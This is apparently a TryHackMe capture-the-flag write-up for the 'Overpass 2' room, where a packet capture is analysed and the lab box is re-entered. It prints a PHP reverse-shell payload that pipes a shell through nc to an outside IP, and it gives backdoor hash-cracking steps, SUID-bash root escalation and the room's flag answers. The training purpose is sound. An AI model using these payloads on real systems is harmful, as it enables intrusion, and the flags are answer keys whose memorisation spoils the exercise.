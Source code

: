 ###### Overpass has been hacked! Can you analyse the attacker's actions and hack back in?
Room: https://tryhackme.com/room/overpass2hacked
##

After downloading the **overpass2.pcapng** file, we can open it using Wireshark.  

Filteringi the results using **tcp.stream eq 0** we can easily find a GET Request from **/development** directory.  

```
GET /development/ HTTP/1.1
Host: 192.168.170.159
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Upgrade-Insecure-Requests: 1
If-Modified-Since: Tue, 21 Jul 2020 01:38:24 GMT
If-None-Match: "588-5aae9add656f8-gzip"

HTTP/1.1 200 OK
Date: Tue, 21 Jul 2020 20:33:53 GMT
Server: Apache/2.4.29 (Ubuntu)
Last-Modified: Tue, 21 Jul 2020 01:38:24 GMT
ETag: "588-5aae9add656f8-gzip"
Accept-Ranges: bytes
Vary: Accept-Encoding
Content-Encoding: gzip
Content-Length: 675
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html

..........uTMo.0...W0:.s.v.Vv....aH..........!.I.a.}.l.I....P...#.>.\>.~.<A..]..p..B.3..C.1.......
..O2.4.m.....d.;KG~..z@I.[-...b....pR.>.f.....b..3.
....".}..........
\]:ln...+..q......p...8..K6_#...o.`..C^y..A..A*.h...7..Oy#.YDL.....|..iu?.C...v.~.....8....._[.'7#vC..j.Pi.}...Z..U......k.e.w[.B..-G.$....."P..kVr1qf...sQ.......k...
...xM.3..{....z..#..c5<.xd.+}...`M ..AE74a"M.r...=..u
r......%...T..!R~.v.e..SNA....S......c.9..?....F.L.../.f.....T.k$..m.%......z.....m..f.IDh...G@..;...6......0..=..z.9..M.i,.]...*(k
...qA..............1n:.T+\..g&E..H..6M.E.3l...J.V.5%b.p...'$#."..xjH..Q^D.<O.J.LK.....;...#.<K.J..8.....3.n.(Rd'tG?.
.c.1..8...^..N....7..7.s............
```

If we follow that TCP STREAM, the next stream reveals us that the payload was uploaded to **/development/uploads/payload.php**.   

**payload content**   
```
<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
```

Fast forward to Stream 3, we see that user **james**'s password is **whenevernoteartinstant**.    
```
su james
Password: whenevernoteartinstant
james@overpass-production:/var/www/html/development/uploads$ cd ~
```

Also, the attackers downloaded a SSH-Backdoor from [here](https://github.com/NinjaJc01/ssh-backdoor).    

**default hash for backdoor**  
```
bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3
```
**hardcoded backdoor salt**   
```
1c362db832f3f864c8c2fe05f2002a05
```
Both the default hash and the salt can be found if we check the source code [here](https://github.com/NinjaJc01/ssh-backdoor/blob/master/main.go).    

**backdoor hash the attacker used**  
```
6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed
```

I used a hash analyzer and the discovered that the hash is SHA-512.  
**hashcat -m 1710 hash /usr/share/wordlists/rockyou.txt**  

**syntax of the content from hash**
```
hash:salt
```

```
6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05:november16
```

So the hash was cracked. The password is **november16**.   

To connect back to the machine, we can authenticate via SSH james:november16.  
Note that the SSH is open on port 2222, not on port 22.  

**First flag is located at /home/james and is thm{d119b4fa8c497ddb0525f7ad200e6567}** **[1]**.  

Also, on the home directory of user james, we can see something interesting.  
```
-rwsr-sr-x 1 root  root  1.1M Jul 22  2020 .suid_bash
```

Note the SUID bit set for that binary, meaning we can run bash with elevated privileges.

**./.suid_bash -p**
```
.suid_bash-4.4# whoami
root
```

**Second flag, at /root/root.txt is thm{d53b2684f169360bb9606c333873144d}** **[2]**.  


